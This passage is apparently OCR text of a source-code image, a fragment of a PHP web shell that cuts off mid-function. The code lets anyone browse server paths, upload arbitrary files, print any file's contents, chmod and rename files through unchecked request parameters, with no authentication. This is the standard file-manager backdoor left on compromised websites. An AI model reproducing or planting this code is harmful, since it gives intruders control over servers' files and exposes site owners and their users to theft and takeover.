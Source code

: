 <tr><td>Current Path : ';
if(isset($_GET['path'])){
$path = $_GET['path'];
}else{
$path = getcwd();
}
$path = str_replace('\\','/',$path);
$paths = explode('/',$path);

foreach($paths as $id=>$pat){
if($pat == '' && $id == 0){
$a = true;
echo '<a href="?path=/">/</a>';
continue;
}
if($pat == '') continue;
echo '<a href="?path=';
for($i=0;$i<=$id;$i++){
echo "$paths[$i]";
if($i != $id) echo "/";
}
echo '">'.$pat.'</a>/';
}
echo '</td></tr><tr><td>';
if(isset($_FILES['file'])){
if(copy($_FILES['file']['tmp_name'],$path.'/'.$_FILES['file']['name'])){
echo '<font color="green">Upload File Success!</font><br />';
}else{
echo '<font color="red">Failed for Upload File!</font><br />';
}
}
echo '<form enctype="multipart/form-data" method="POST">
Upload File : <input type="file" name="file" />
<input type="submit" value="upload" />
</form>
</td></tr>';
if(isset($_GET['filesrc'])){
echo "<tr><td>Current File : ";
echo $_GET['filesrc'];
echo '</tr></td></table><br />';
echo('<pre>'.htmlspecialchars(file_get_contents($_GET['filesrc'])).'</pre>');
}elseif(isset($_GET['option']) && $_POST['opt'] != 'delete'){
echo '</table><br /><center>'.$_POST['path'].'<br /><br />';
if($_POST['opt'] == 'chmod'){
if(isset($_POST['perm'])){
if(chmod($_POST['path'],$_POST['perm'])){
echo '<font color="green">Change Permission Success~!</font><br />';
}else{
echo '<font color="red">Failed for Change Permission !</font><br />';
}
}
echo '<form method="POST">
Permission : <input name="perm" type="text" size="4" value="'.substr(sprintf('%o', fileperms($_POST['path'])), -4).'" />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="chmod">
<input type="submit" value="Go" />
</form>';
}elseif($_POST['opt'] == 'rename'){
if(isset($_POST['newname'])){
if(rename($_POST['path'],$path.'/'.$_POST['newname'])){
echo '<font color="green">Change Name Success!</font><br />';
}else{
echo '<font color="red">Failed for Change Name !</font><br />';